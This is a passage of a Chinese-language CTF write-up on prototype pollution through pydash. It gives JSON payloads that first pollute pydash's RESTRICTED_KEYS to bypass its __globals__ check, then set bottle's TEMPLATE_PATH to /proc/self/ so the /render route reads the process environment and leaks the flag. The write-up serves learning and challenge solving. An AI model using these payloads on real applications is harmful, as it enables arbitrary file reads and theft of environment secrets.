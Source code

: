 本地调试一下

可以看到在高版本的pydash中会对path进行检查

![image-20250324143423017](../assets/image-20250324143423017.png)

如果path中存在\_\_globals\_\_，\__builtins__则会返回异常

![image-20250324144551684](../assets/image-20250324144551684.png)

我们需要先把RESTRICTED_KEYS给污染掉

![image-20250324144918932](../assets/image-20250324144918932.png)

```
?name=pydash

{
"path":"helpers.RESTRICTED_KEYS",
"value":""
}
```

![image-20250324145230172](../assets/image-20250324145230172.png)

现在就可以污染\_\_forbidden_name\_\_了

![image-20250324150300621](../assets/image-20250324150300621.png)

污染掉\_\_forbidden_name\_\_之后，我们可以通过对bottle的模板路径进行污染从而实现在render路由进行任意文件读取，因为这题的flag在环境变量中，所以我们直接将TEMPLATE_PATH污染为**/proc/self**

![image-20250324150547182](../assets/image-20250324150547182.png)

```
?name=bottle

{
"path":"TEMPLATE_PATH",
"value":["/proc/self/"]
}
```

接着在/render读环境变量

```
?path=environ
```

拿到flag